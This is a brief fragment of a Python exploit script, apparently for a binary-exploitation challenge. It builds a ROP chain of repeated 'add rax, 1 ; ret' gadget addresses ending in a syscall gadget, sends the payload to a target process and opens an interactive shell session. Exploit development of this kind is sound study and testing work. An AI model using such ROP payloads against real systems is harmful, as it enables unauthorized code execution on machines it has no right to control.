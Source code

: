```python
p += pack('<Q', 0x00000000000cd9e0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000cd9e0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000cd9e0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000cd9e0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000cd9e0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000284a6) # syscall

process.sendline(p)

process.interactive()
```